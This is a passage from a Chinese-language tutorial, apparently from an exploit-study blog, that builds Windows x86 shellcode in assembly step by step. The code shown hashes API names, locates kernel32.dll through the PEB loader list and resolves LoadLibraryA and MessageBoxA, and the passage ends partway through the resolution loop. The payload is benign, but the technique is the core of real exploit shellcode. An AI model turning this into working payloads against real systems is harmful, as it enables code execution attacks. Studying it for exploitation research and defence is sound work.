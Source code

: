 ![Untitled Diagram-2.jpg]({{ site.url }}/images/0day/0DE5A20BC218CF0ACCB17F5CD1321728.jpg)

汇编编程往往需要周密的思考，下面我们分步进行解说。我们不会遗漏任何代码，这意味着后面的所有代码片段按照前后顺序直接组合起来即为完整的可编译代码。

首先是将增量标志清零，防止字符串处理方向发生变化。另外就是先把hash值压入栈中，并用`esi`标识：

```assembly
	nop
	nop
	nop

	CLD ; clear flag DF
	; store hash
	push 0x1e380a6a ; MessageBoxA
	push 0x4fd18963 ; ExitProcess
	push 0x0c917432 ; LoadLibraryA
	mov esi, esp ; esi = addr of first function's hash
	lea edi, [esi - 0xc] ; edi = addr to start writing function
```

接着抬高栈顶，保护shellcode：

```assembly
	; get some stack space
	xor ebx, ebx
	mov bh, 0x04
	sub esp, ebx
```

然后把`user32.dll`压入栈，方便将来`LoadLibrary`：

```assembly
	; push a pointer to "user32" onto stack
	mov bx, 0x3233 ; rest of ebx is null (bx is "32")
	push ebx
	push 0x72657375 ; "user"
	push esp ; the pointer
	xor edx, edx
```

接着开始获取`kernel32.dll`的基址：

```assembly
	; find base addr of kernel32.dll
	mov ebx, fs:[edx + 0x30] ; ebx = address of PEB
	mov ecx, [ebx + 0x0c] ; ecx = pointer to loader data
	mov ecx, [ecx + 0x1c] ; ecx = pointer first entry in initialization order list
	mov ecx, [ecx] ; ecx = second entry in list (kernel32.dll)
	mov ebp, [ecx + 0x08] ; ebp = base address of kernel32.dll
```

接着开始定位库函数，每定位成功一次，我们就把函数的地址写入之前保存它的名称的hash的地方，方便后面调用。由于`Messagebox`在`user32.dll`中，所以我们要先判断一下，如果是在定位它，就调用`LoadLibrary`载入`user32.dll`。注意我们最开始push函数名hash的顺序，`Messagebox`是最后才会被定位的，而这时`LoadLibrary`已经被定位过了，可供使用。

```assembly
find_lib_functions:
	lodsd ; load next hash into al and increment esi
	cmp eax, 0x1e380a6a ; hash of MessageBoxA - trigger
						; LoadLibrary("user32.dll")
	jne find_functions
	xchg eax, ebp ; save current hash
	call [edi - 0x8] ; LoadLibraryA
	xchg eax, ebp ; restore current hash, and update ebp with base address of user32.dll
```
